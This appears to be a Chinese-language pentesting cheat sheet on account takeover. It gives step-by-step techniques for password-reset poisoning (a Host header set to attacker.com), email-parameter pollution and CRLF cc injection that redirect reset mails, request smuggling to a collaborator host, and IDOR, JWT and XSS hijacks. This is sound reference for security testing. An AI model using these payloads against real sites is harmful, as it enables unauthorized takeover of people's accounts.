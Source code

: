 # 账户劫持 (Account Takeover)

> 账户劫持(ATO)是网络安全领域中的重大威胁，涉及通过多种攻击向量获取用户账户的未授权访问。

## 目录

* [密码重置功能](#密码重置功能)
    * [通过Referrer泄露密码重置令牌](#通过referrer泄露密码重置令牌)
    * [通过密码重置投毒实现账户劫持](#通过密码重置投毒实现账户劫持)
    * [通过Email参数重置密码](#通过email参数重置密码)
    * [API参数中的IDOR漏洞](#api参数中的idor漏洞)
    * [弱密码重置令牌](#弱密码重置令牌)
    * [泄露密码重置令牌](#泄露密码重置令牌)
    * [通过用户名冲突重置密码](#通过用户名冲突重置密码)
    * [Unicode规范化问题导致的账户劫持](#unicode规范化问题导致的账户劫持)
* [通过Web漏洞实现账户劫持](#通过web漏洞实现账户劫持)
    * [通过跨站脚本(XSS)实现账户劫持](#通过跨站脚本xss实现账户劫持)
    * [通过HTTP请求走私实现账户劫持](#通过http请求走私实现账户劫持)
    * [通过CSRF实现账户劫持](#通过csrf实现账户劫持)
    * [通过JWT实现账户劫持](#通过jwt实现账户劫持)
* [参考资料](#参考资料)

## 密码重置功能

### 通过Referrer泄露密码重置令牌

1. 向您的邮箱请求密码重置
2. 点击密码重置链接
3. 不要更改密码
4. 点击任何第三方网站（如：Facebook、Twitter）
5. 在Burp Suite代理中拦截请求
6. 检查referer头是否泄露了密码重置令牌

### 通过密码重置投毒实现账户劫持

1. 在Burp Suite中拦截密码重置请求
2. 在Burp Suite中添加或编辑以下请求头：`Host: attacker.com`，`X-Forwarded-Host: attacker.com`
3. 转发修改后的请求

    ```http
    POST https://example.com/reset.php HTTP/1.1
    Accept: */*
    Content-Type: application/json
    Host: attacker.com
    ```

4. 查找基于*host header*的密码重置URL，例如：`https://attacker.com/reset-password.php?token=TOKEN`

### 通过Email参数重置密码

```powershell
# 参数污染
email=victim@mail.com&email=hacker@mail.com

# 邮件数组
{"email":["victim@mail.com","hacker@mail.com"]}

# 抄送
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# 分隔符
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```

### API参数中的IDOR漏洞

1. 攻击者需要登录自己的账户并进入**更改密码**功能
2. 启动Burp Suite并拦截请求
3. 发送到Repeater标签页并编辑参数：用户ID/邮箱

    ```powershell
    POST /api/changepass
    [...]
    ("form": {"email":"victim@email.com","password":"securepwd"})
    ```

### 弱密码重置令牌

密码重置令牌应随机生成且每次唯一。尝试确定令牌是否会过期，或者是否始终相同。在某些情况下，生成算法可能很弱，可以被猜测。算法可能使用以下变量：

* 时间戳
* 用户ID
* 用户邮箱
* 名和姓
* 出生日期
* 加密方式
* 仅数字
* 短令牌序列（<6个字符，包含[A-Z,a-z,0-9]）
* 令牌重用
* 令牌过期日期

### 泄露密码重置令牌

1. 使用API/UI为特定邮箱触发密码重置请求，例如：<test@mail.com>
2. 检查服务器响应，查找`resetToken`
3. 在URL中使用该令牌，例如：`https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### 通过用户名冲突重置密码

1. 使用与受害者用户名相同但前后插入空格的用户名注册系统。例如：`"admin "`
2. 使用恶意用户名请求密码重置
3. 使用发送到您邮箱的令牌重置受害者密码
4. 使用新密码登录受害者账户

CTFd平台曾存在此漏洞。
参考：[CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Unicode规范化问题导致的账户劫持

当处理涉及Unicode的输入以进行大小写映射或规范化时，可能会出现意外行为。

* 受害者账户：`demo@gmail.com`
* 攻击者账户：`demⓞ@gmail.com`

[Unisub - 可以建议可能转换为给定字符的Unicode字符的工具](https://github.com/tomnomnom/hacks/tree/master/unisub)。

[Unicode渗透测试速查表](https://gosecure.github.io/unicode-pentester-cheatsheet/)可用于根据平台查找适合的Unicode字符列表。

## 通过Web漏洞实现账户劫持

### 通过跨站脚本(XSS)实现账户劫持

1. 在应用程序或子域中查找XSS漏洞（如果cookie作用域为父域：`*.domain.com`）
2. 泄露当前**会话cookie**
3. 使用该cookie以用户身份进行身份验证

### 通过HTTP请求走私实现账户劫持

参考**HTTP请求走私**漏洞页面。

1. 使用**smuggler**检测HTTP请求走私类型（CL、TE、CL.TE）

    ```powershell
    git clone https://github.com/defparam/smuggler.git
    cd smuggler
    python3 smuggler.py -h
    ```

2. 制作一个请求，该请求将覆盖`POST / HTTP/1.1`为以下数据：

    ```powershell
    GET http://something.burpcollaborator.net  HTTP/1.1
    X: 
    ```

3. 最终请求可能如下所示：

    ```powershell
    GET /  HTTP/1.1
    Transfer-Encoding: chunked
    Host: something.com
    User-Agent: Smuggler/v1.0
    Content-Length: 83

    0

    GET http://something.burpcollaborator.net  HTTP/1.1
    X: X
    ```

Hackerone上利用此漏洞的报告：

* <https://hackerone.com/reports/737140>
* <https://hackerone.com/reports/771666>

### 通过CSRF实现账户劫持

1. 创建CSRF负载，例如："带自动提交的HTML表单用于更改密码"
2. 发送负载

### 通过JWT实现账户劫持

JSON Web Token可能用于用户认证。

* 使用另一个用户ID/邮箱编辑JWT
* 检查弱JWT签名

## 参考资料

* [$6.5k + $5k HTTP请求走私大规模账户劫持 - Slack + Zomato - 漏洞赏金报告解析 - 2020年8月30日](https://www.youtube.com/watch?v=gzM4wWA7RFo)
* [10种密码重置漏洞 - Anugrah SR - 2020年9月16日](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)
* [加密漏洞与账户劫持 - Harsh Bothra - 2020年9月20日](https://speakerdeck.com/harshbothra/broken-cryptography-and-account-takeovers?slide=28)
* [CTFd账户劫持 - NIST国家漏洞数据库 - 2020年3月29日](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)
* [通过复制粘贴入侵Grindr账户 - Troy Hunt - 2020年10月3日](https://www.troyhunt.com/hacking-grindr-accounts-with-copy-and-paste/)

---

*最后更新: 2025年6月*
